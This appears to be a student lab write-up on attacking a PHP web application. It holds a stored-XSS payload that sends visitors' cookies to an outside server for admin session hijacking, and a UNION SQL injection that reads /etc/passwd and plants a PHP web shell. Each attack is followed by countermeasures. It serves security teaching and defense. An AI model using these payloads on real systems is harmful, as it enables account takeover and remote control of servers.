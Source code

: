 # 1 - Cross-Site Scripting

## 1.1 - XSS vulnerability: cookie hijack attack

When creating a new post, one can easily see that angle brackets aren't
escaped, hence allowing a XSS attack.

With the following payload, any user loading the post page will send
a GET request to 10.0.2.2 with its cookie as a query parameter.
As a sidenote, I ran my own little Web server on my host outsite
VirtualBox, which explains this raw IP.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://10.0.2.2:3001?cookie=" + document.cookie);
request.send(null);
</script>
```

The server receives a request with a body similar to the following one:

```json
{ "cookie": "PHPSESSID=4l9v89l9s2vkog36aoef350pd4" }
```

Then, you just have to wait for an admin to leak its cookie, and with
his cookie you can pretty much spoof its identity. To do so, you just
have to add a cookie on your client browset and set its value to the
admin stolen cookie.

## 1.2 - Countermeasures

The easiest way to prevent this XSS vulnerability is to sanitize all
fields from the server to the client using, for example,
`htmlspecialchars` in PHP.

The user input should also be validated to avoid inserting illegal
characters into the database, like weird unicode characters that can
mess with the disposition of the page (Zalgo, RTLO, etc). For "real" XSS
attacks, some websites like GitHub restrict the use of certain tags like
`<script>` or `<style>` while allowing some other (`<a>`, `<br/>`...).
Make sure however that, for images, their source is also checked.

Otherwise, a heavier solution could be to use a front-end framework
like Angular or React and use API requests to fetch the data. These
framework will then sanitize the data by themselves by default and
prevent unsafe DOM operations.

HTTP headers can also be used to limit the leak if a XSS is exploited.
Content Security Policy can prevent the client from fetching external
websites and allowing only its own domain.

XSS using iframes can be avoided by setting the `sandbox` attribute,
which will add some restrictions to what the embedded website can do.
Without it, an iframe is able to open popups, submit forms, run scripts,
send requests as if it was from the same origin, etc. This same origin
policy is especially useful if the CSP headers explained above are set.

Finally, even with a XSS vulnerability, cookie theft can be avoided by
marking the cookie as HTTP only, which makes it unreadable by a JS
script.

# 2 - SQL Injection

## 2.1 - Vulnerability

An SQL injection happens when the client is allowed to communicate with
the database with unsanitized input, effectively gaining access to it.
In a safe web server, the client communicates to the server through an
API or using forms, and then the server communicates to the database.

However, on the `/admin/edit.php` page, it can be seen that it is
possible to directly access the SQL database through the `id` query
parameter.

After trying the other pages, it feels like this is the only SQL
vulnerability. However, with these kind of vulnerabilities, the devil is
in the details and it is a tedious job to check all inputs.

To find this vulnerability, I noticed that the route
`/admin/edit.php?id=-1` would, obvously, not find anything, however the
route `/admin/edit.php?id=-1 or true` would find a result.
Then, after some trial and error, I found that the route
`/admin/edit.php?id=0 union select 1,2,3,4` fills the textarea with the
text `3`. We just have to replace this `3` in the request by something
more useful and voila, with the route
`/admin/edit.php?id=0 union select 1,2,load_file("/etc/passwd"),4` we
get the content of the `/etc/passwd` file.

Looking at the source of the page, we can see that a `css` directory
exists. Usually, web servers are served from the Unix directory
`/var/www`. We can then try to create a file inside using our previous
SQL injection, on the route:
`/admin/edit.php?id=0 union select 1,2,3,4 into outfile "/var/www/css/test.php"`
Then, getting the page `/css/test.php` shows `1 2 3 4`, which proves
that we managed to write code into a server file.

Finally, we just have to use the route
`/admin/edit.php?id=0 union select 1,2,"<?php system($_GET['cmd']); ?>",4 into outfile "/var/www/css/attack.php"`
to create a remote shell on the `/css/attack.php` page. The command is
sent using the `cmd` query parameter. For example, we can now get the
content of the `/etc/passwd` file by fetching
`/css/attack.php?cmd=cat /etc/passwd`. This even works without the admin
cookie; we effectively installed a backdoor in the system, and can now
do whatever we want, like installing packages, load additional scripts
from internet, open a SSH connection, etc.

## 2.2 - Countermeasures

On the application side, every user input should be sanitized. The
server should also use prepared statements to force MySQL to interpret
the data as data and not as a command.
```php
$stmt = $conn->prepare("INSERT INTO db (username, password) VALUES (?, ?)");
$stmt->bind_param("ss", $user, $passwd);
```
As always, one can also use an ORM framework to make sure no SQL query
get forgotten.
SQL transactions can also be used, such that the transaction can be
cancelled if the server notice something is off, like more than one row
deleted from the table.

Additionally, the database itself should have as few permissions as
possible. It shouldn't be possible to access or modify external
resources like the file system, internal resources like the SQL users
or the structure of the table (forbid drop, add or remove column, change
charset, etc).

The third and last point is at the OS level. The Web server should
definitely not run as root, it should at least run as a separate user
with very limited read / write filesystem access, and at best run in its
own Docker container. This would also limit the resource allocation by
preventing exessive RAM or CPU usage that could slow the whole physical
server.
